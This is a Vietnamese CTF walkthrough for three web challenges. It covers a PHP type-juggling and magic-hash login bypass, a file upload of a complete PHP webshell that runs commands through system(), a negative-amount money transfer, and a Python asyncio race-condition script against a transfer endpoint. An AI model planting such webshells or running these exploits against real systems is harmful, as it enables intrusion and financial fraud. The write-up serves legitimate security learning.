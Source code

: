 # **Magic shop**

*Mở đầu là 1 form login, mở source:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/e193728d-cd4d-4f79-a928-534b98ea9903)

-Trong đoạn code trên trang web sẽ lấy username và password bị hash bằng sha256 và kiểm tra điều kiện pasword phải bằng 0 thì mới login được. Mặc dù password đã bị hash nhưng ta vẫn có thể login được. Bởi vì trang web sử dụng sử dụng `==` để so sánh 1 chuỗi với 1 interger nên nó có thể bị 1 lỗ hổng là Type Juggling  
-Khi so sánh một string với một số interger trong PHP, nếu như string bắt đầu bằng một ký tự không phải là số, nó sẽ mặc định là int(0) hoặc các strings bắt đầu với các ký tự là 0e, khi đó các chuỗi được chuyển thành các lũy thừa tương đương đương với int(0)   
-Bên cạnh đó ta có 1 lỗ hổng khác là magic hashes nó xuất hiện do một lỗi trong cách PHP xử lý kiểu dữ liệu khi so sánh chuỗi băm với số nguyên. Nếu một chuỗi băm bắt đầu bằng “0e” . Thế nên ta có thể dễ dàng tìm thấy payload trên mạng    
**nguồn payload** https://github.com/spaze/hashes  
=> qua được phần login

*Phần sau là 1 chức năng upload file và trong source không có chức năng bảo mật gì nên ta chỉ cần upload file webshell lên và và thực hiện tìm flag thôi  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/591a9e8a-9cd5-4ea1-8d7f-50ef6e20cbf2)

file upload: webshell.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/28f77c09-88d6-4656-b5f5-abfc64c63f1f)

# Be Positive
Bài này chỉ cần lúc chuyển chiền cho tài khoản khác sửa thành số âm là được. sau đó dùng số tiền đó để mua flag

# Slow Down
Bài này trang web tương tự Be Positive, payload nhưng chuyển tiền qua tài khoản khác bằng số âm đã không còn hoạt động ở bài này. Mình nghĩ bài này rất có thể sẽ bị lỗ hổng race condition=> đúng thật là nó ;v

**exploit**
```
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://slow-down-44f3a156.dailycookie.cloud/?action=transfer', cookies={"PHPSESSID": "e4dbc35e8795f3889acff05a0baff65d"}, data={"amount": "100.849%","recipient":"alice"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/d39804e2-b510-498c-8ec0-794fa3888acb)

